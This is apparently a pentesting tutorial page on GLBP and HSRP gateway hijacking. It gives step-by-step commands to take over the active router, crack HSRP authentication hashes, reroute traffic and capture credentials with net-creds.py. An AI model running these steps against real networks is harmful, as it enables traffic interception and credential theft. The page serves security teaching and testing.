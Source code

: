 # GLBP & HSRP Attacks

## FHRP Hijacking Overview

### Insights into FHRP

FHRP is designed to provide network robustness by merging multiple routers into a single virtual unit, thereby enhancing load distribution and fault tolerance. Cisco Systems introduced prominent protocols in this suite, such as GLBP and HSRP.

### GLBP Protocol Insights

Cisco's creation, GLBP, functions on the TCP/IP stack, utilizing UDP on port 3222 for communication. Routers in a GLBP group exchange "hello" packets at 3-second intervals. If a router fails to send these packets for 10 seconds, it is presumed to be offline. However, these timers are not fixed and can be modified.

### GLBP Operations and Load Distribution

GLBP stands out by enabling load distribution across routers using a single virtual IP coupled with multiple virtual MAC addresses. In a GLBP group, every router is involved in packet forwarding. Unlike HSRP/VRRP, GLBP offers genuine load balancing through several mechanisms:

- **Host-Dependent Load Balancing:** Maintains consistent AVF MAC address assignment to a host, essential for stable NAT configurations.
- **Round-Robin Load Balancing:** The default approach, alternating AVF MAC address assignment among requesting hosts.
- **Weighted Round-Robin Load Balancing:** Distributes load based on predefined "Weight" metrics.

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** The main router, responsible for allocating MAC addresses to peer routers.
- **AVF (Active Virtual Forwarder):** A router designated to manage network traffic.
- **GLBP Priority:** A metric that determines the AVG, starting at a default of 100 and ranging between 1 and 255.
- **GLBP Weight:** Reflects the current load on a router, adjustable either manually or through Object Tracking.
- **GLBP Virtual IP Address:** Serves as the network's default gateway for all connected devices.

For interactions, GLBP employs the reserved multicast address 224.0.0.102 and UDP port 3222. Routers transmit "hello" packets at 3-second intervals, and are considered non-operational if a packet is missed over a 10-second duration.

### GLBP Attack Mechanism

An attacker can become the primary router by sending a GLBP packet with the highest priority value (255). This can lead to DoS or MITM attacks, allowing traffic interception or redirection.

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali) can perform a GLBP attack by injecting a packet with priority and weight set to 255. Pre-attack steps involve gathering information like the virtual IP address, authentication presence, and router priority values using tools like Wireshark.

Attack Steps:

1. Switch to promiscuous mode and enable IP forwarding.
2. Identify the target router and retrieve its IP.
3. Generate a Gratuitous ARP.
4. Inject a malicious GLBP packet, impersonating the AVG.
5. Assign a secondary IP address to the attacker's network interface, mirroring the GLBP virtual IP.
6. Implement SNAT for complete traffic visibility.
7. Adjust routing to ensure continued internet access through the original AVG router.

By following these steps, the attacker positions themselves as a "man in the middle," capable of intercepting and analyzing network traffic, including unencrypted or sensitive data.

For demonstration, here are the required command snippets:

```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

### Passive Explanation of HSRP Hijacking with Command Details

#### Overview of HSRP (Hot Standby Router/Redundancy Protocol)

HSRP is a Cisco proprietary protocol designed for network gateway redundancy. It allows the configuration of multiple physical routers into a single logical unit with a shared IP address. This logical unit is managed by a primary router responsible for directing traffic. Unlike GLBP, which uses metrics like priority and weight for load balancing, HSRP relies on a single active router for traffic management.

#### Roles and Terminology in HSRP

- **HSRP Active Router**: The device acting as the gateway, managing traffic flow.
- **HSRP Standby Router**: A backup router, ready to take over if the active router fails.
- **HSRP Group**: A set of routers collaborating to form a single resilient virtual router.
- **HSRP MAC Address**: A virtual MAC address assigned to the logical router in the HSRP setup.
- **HSRP Virtual IP Address**: The virtual IP address of the HSRP group, acting as the default gateway for connected devices.

#### HSRP Versions

HSRP comes in two versions, HSRPv1 and HSRPv2, differing mainly in group capacity, multicast IP usage, and virtual MAC address structure. The protocol utilizes specific multicast IP addresses for service information exchange, with Hello packets sent every 3 seconds. A router is presumed inactive if no packet is received within a 10-second interval.

#### HSRP Attack Mechanism

HSRP attacks involve forcibly taking over the Active Router's role by injecting a maximum priority value. This can lead to a Man-In-The-Middle (MITM) attack. Essential pre-attack steps include gathering data about the HSRP setup, which can be done using Wireshark for traffic analysis.

#### Steps for Bypassing HSRP Authentication

1. Save the network traffic containing HSRP data as a .pcap file.
   ```shell
   tcpdump -w hsrp_traffic.pcap
   ```
2. Extract MD5 hashes from the .pcap file using hsrp2john.py.
   ```shell
   python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
   ```
3. Crack the MD5 hashes using John the Ripper.
   ```shell
   john --wordlist=mywordlist.txt hsrp_hashes
   ```

**Executing HSRP Injection with Loki**

1. Launch Loki to identify HSRP advertisements.
2. Set the network interface to promiscuous mode and enable IP forwarding.
   ```shell
   sudo ip link set eth0 promisc on
   sudo sysctl -w net.ipv4.ip_forward=1
   ```
3. Use Loki to target the specific router, input the cracked HSRP password, and perform necessary configurations to impersonate the Active Router.
4. After gaining the Active Router role, configure your network interface and IP tables to intercept the legitimate traffic.
   ```shell
   sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
   sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
   ```
5. Modify the routing table to route traffic through the former Active Router.
   ```shell
   sudo route del default
   sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
   ```
6. Use net-creds.py or a similar utility to capture credentials from the intercepted traffic.
   ```shell
   sudo python2 net-creds.py -i eth0
   ```

Executing these steps places the attacker in a position to intercept and manipulate traffic, similar to the procedure for GLBP hijacking. This highlights the vulnerability in redundancy protocols like HSRP and the need for robust security measures.

## References

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

